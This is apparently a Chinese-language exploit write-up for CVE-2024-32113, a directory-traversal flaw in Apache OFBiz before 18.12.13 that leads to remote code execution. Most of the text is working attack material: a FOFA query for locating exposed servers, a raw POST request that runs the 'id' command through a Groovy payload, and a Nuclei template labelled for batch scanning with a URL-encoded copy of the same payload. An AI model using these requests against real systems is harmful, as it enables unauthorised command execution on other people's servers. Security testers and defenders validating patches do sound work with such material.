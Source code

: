 **漏洞名称**

Apache OFBiz 目录遍历致代码执行漏洞

**漏洞影响**

Apache OFBiz 18.12.13之前的版本

**漏洞描述**

Apache OFBiz是一个电子商务平台，用于构建大中型企业级、跨平台、跨数据库、跨应用服务器的多层、分布式电子商务类应用系统。2024年5月，官方发布新版本修复了CVE-2024-32113 Apache OFBiz 目录遍历致代码执行漏洞，攻击者可构造恶意请求控制服务器。建议尽快修复漏洞。

**FOFA搜索语句**

app="Apache_OFBiz"

**漏洞复现**

向靶场发送如下数据包，在靶场上执行id命令

```yaml
POST /webtools/control/forgotPassword/%2e/%2e/ProgramExport HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:70.0) Gecko/20100101 Firefox/70.0
Connection: close
Content-Length: 55
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

groovyProgram=throw+new+Exception('id'.execute().text);
```

**批量漏洞扫描 poc**

```yaml
id: CVE-2024-32113

info:
  name: Apache OFBiz Directory Traversal - Remote Code Execution
  author: DhiyaneshDK
  severity: high
  description: |
    Improper Limitation of a Pathname to a Restricted Directory ('Path Traversal') vulnerability in Apache OFBiz.This issue affects Apache OFBiz: before 18.12.13
  remediation: |
    Users are recommended to upgrade to version 18.12.13, which fixes the issue.
  reference:
    - https://issues.apache.org/jira/browse/OFBIZ-13006
    - https://lists.apache.org/thread/w6s60okgkxp2th1sr8vx0ndmgk68fqrd
    - https://ofbiz.apache.org/download.html
    - https://ofbiz.apache.org/security.html
    - https://github.com/absholi7ly/Apache-OFBiz-Directory-Traversal-exploit
    - https://nvd.nist.gov/vuln/detail/CVE-2024-32113
  classification:
    cve-id: CVE-2024-32113
    epss-score: 0.00115
    epss-percentile: 0.45112
  metadata:
    verified: true
    max-request: 1
    fofa-query: app="Apache_OFBiz"
  tags: cve,cve2024,apache,obiz,rce

http:
  - raw:
      - |
        POST /webtools/control/forgotPassword/%2e/%2e/ProgramExport HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/x-www-form-urlencoded

        groovyProgram=%74%68%72%6f%77%20%6e%65%77%20%45%78%63%65%70%74%69%6f%6e(%27%69%64%27.%65%78%65%63%75%74%65().%74%65%78%74);

    matchers-condition: and
    matchers:
      - type: regex
        part: body
        regex:
          - "java.lang.Exception:"
          - "uid=([0-9(a-z-)]+) gid=([0-9(a-z-)]+) groups=([0-9(a-z-)]+)"
        condition: and

      - type: status
        status:
          - 200
```

